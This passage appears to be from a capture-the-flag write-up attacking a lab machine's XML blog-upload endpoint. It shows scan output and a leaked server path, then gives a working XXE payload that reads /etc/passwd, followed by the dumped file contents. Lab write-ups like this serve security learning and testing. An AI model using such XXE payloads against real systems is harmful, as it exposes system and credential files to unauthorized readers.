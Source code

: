 ```bash
---- Scanning URL: http://10.10.10.91:5000/ ----
+ http://10.10.10.91:5000/upload (CODE:200|SIZE:347)

-----------------
END_TIME: Sun Aug 26 16:45:31 2018
DOWNLOADED: 4612 - FOUND: 1
```

The site under `/upload` can be used for uploading blogposts. At the top of the page, the following sentence is displayed: `This is a test API! The final API will not have this functionality.` This indicates that the code might be not so well tested...

Blogposts can be uploaded using the XML format. A valid upload looks as follows:

```bash
<?xml version="1.0" encoding="utf-8"?>
<root>
<Author>Foo</Author>
<Subject>FooSubject</Subject>
<Content>FooContent</Content>
</root>
```

The uploaded file can be found again at `http://10.10.10.91:5000/uploads/valid.xml`:

```bash
PROCESSED BLOGPOST: Author: Foo Subject: FooSubject Content: FooContent URL for later reference: /uploads/valid2.xml File path: /home/roosa/deploy/src
```

This leaks the real directory on the server: `/home/roosa/deploy/src`. Furthermore, there must be a user `roosa` on the server.

The server is vulnerable to XXE, a fact that I verified by uploading the following XML file:

```bash
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo[<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<root>
<Author>Foo</Author>
<Subject>FooSubject</Subject>
<Content>&xxe;</Content>
</root>
```

The response from the server:

```bash
PROCESSED BLOGPOST: 
Author: Foo 
Subject: FooSubject 
Content: root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin 
sys:x:3:3:sys:/dev:/usr/sbin/nologin 
sync:x:4:65534:sync:/bin:/bin/sync 
games:x:5:60:games:/usr/games:/usr/sbin/nologin 
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin 
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin 
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin 
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin 
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin 
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin 
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin 
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin 
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin 
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin 
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin 
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin 
```